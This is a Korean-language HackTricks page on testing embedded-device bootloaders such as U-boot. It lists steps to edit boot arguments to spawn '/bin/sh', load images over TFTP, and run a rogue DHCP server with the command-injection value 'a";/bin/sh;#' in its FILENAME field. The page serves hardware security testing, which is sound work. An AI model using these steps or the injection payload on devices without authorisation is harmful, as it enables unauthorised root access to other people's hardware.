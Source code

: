 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
{% endhint %}

다음 단계는 U-boot와 같은 장치 시작 구성 및 부트로더를 수정하는 데 권장됩니다:

1. **부트로더의 인터프리터 셸에 접근**:
- 부팅 중 "0", 스페이스 또는 다른 식별된 "매직 코드"를 눌러 부트로더의 인터프리터 셸에 접근합니다.

2. **부트 인수 수정**:
- 다음 명령을 실행하여 '`init=/bin/sh`'를 부트 인수에 추가하여 셸 명령을 실행할 수 있도록 합니다:
%%%
#printenv
#setenv bootargs=console=ttyS0,115200 mem=63M root=/dev/mtdblock3 mtdparts=sflash:<partitiionInfo> rootfstype=<fstype> hasEeprom=0 5srst=0 init=/bin/sh
#saveenv
#boot
%%%

3. **TFTP 서버 설정**:
- 로컬 네트워크를 통해 이미지를 로드하기 위해 TFTP 서버를 구성합니다:
%%%
#setenv ipaddr 192.168.2.2 #장치의 로컬 IP
#setenv serverip 192.168.2.1 #TFTP 서버 IP
#saveenv
#reset
#ping 192.168.2.1 #네트워크 접근 확인
#tftp ${loadaddr} uImage-3.6.35 #loadaddr는 파일을 로드할 주소와 TFTP 서버의 이미지 파일 이름을 가져옵니다
%%%

4. **`ubootwrite.py` 사용**:
- `ubootwrite.py`를 사용하여 U-boot 이미지를 작성하고 수정된 펌웨어를 푸시하여 루트 접근을 얻습니다.

5. **디버그 기능 확인**:
- 자세한 로깅, 임의 커널 로드 또는 신뢰할 수 없는 소스에서 부팅과 같은 디버그 기능이 활성화되어 있는지 확인합니다.

6. **주의할 하드웨어 간섭**:
- 장치 부팅 시퀀스 중 하나의 핀을 접지에 연결하고 SPI 또는 NAND 플래시 칩과 상호작용할 때 주의하십시오. 특히 커널이 압축 해제되기 전에 핀을 단락하기 전에 NAND 플래시 칩의 데이터시트를 참조하십시오.

7. **악성 DHCP 서버 구성**:
- PXE 부팅 중 장치가 수신할 악성 매개변수를 가진 악성 DHCP 서버를 설정합니다. Metasploit의 (MSF) DHCP 보조 서버와 같은 도구를 사용하십시오. 'FILENAME' 매개변수를 `'a";/bin/sh;#'`와 같은 명령 주입 명령으로 수정하여 장치 시작 절차에 대한 입력 유효성 검사를 테스트합니다.

**참고**: 장치 핀과의 물리적 상호작용을 포함하는 단계(*별표로 표시된)는 장치 손상을 피하기 위해 극도로 주의하여 접근해야 합니다.


## References
* [https://scriptingxss.gitbook.io/firmware-security-testing-methodology/](https://scriptingxss.gitbook.io/firmware-security-testing-methodology/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
</details>
{% endhint %}
